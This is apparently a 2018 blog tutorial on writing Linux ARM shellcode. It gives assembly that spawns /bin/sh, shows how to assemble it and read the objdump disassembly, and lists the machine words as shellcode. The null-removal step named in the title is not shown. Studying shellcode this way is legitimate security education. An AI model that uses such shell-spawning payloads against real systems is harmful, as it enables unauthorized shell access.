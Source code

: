 ```yaml
---
layout: post
title: Linux ARM Shellcode - Part 2 - Removing NULLs
description: "Linux ARM Shellcode"
date: 2018-12-19 15:30:00
categories: shellcode
tags: [linux, arm, shellcode, assembly]
---
```


## Linux Arm Shellcode - Part 2 - Removing NULLs

Using the shell.s example from Part 1

    .text
    .global _start

    _start:
            add r0, pc, #12
            mov r1, #0
            mov r2, #0
            mov r7, #11
            svc #1

    _string:
    .asciz  "/bin/sh"

After compiling

    $ as shell.s -o shell.o

The object code looked like this

    # objdump -d shell.o

    shell.o:     file format elf32-littlearm


    Disassembly of section .text:

    00000000 <_start>:
       0:   e28f000c        add     r0, pc, #12
       4:   e3a01000        mov     r1, #0
       8:   e3a02000        mov     r2, #0
       c:   e3a0700b        mov     r7, #11
      10:   ef000001        svc     0x00000001

    00000014 <_string>:
      14:   6e69622f        .word   0x6e69622f
      18:   0068732f        .word   0x0068732f

The machine instructions, our "shellcode", are the 32 bit values in the second column.

    e28f000c
    e3a01000
    e3a02000
    e3a0700b
    ef000001
    6e69622f
    0068732f


[objcopy]: http://man7.org/linux/man-pages/man1/objcopy.1.html
[hexdump]: http://man7.org/linux/man-pages/man1/hexdump.1.html
[readelf]: http://www.man7.org/linux/man-pages/man1/readelf.1.html
[ld]: http://man7.org/linux/man-pages/man1/ld.1.html
[execstack]: http://man7.org/linux/man-pages/man8/execstack.8.html
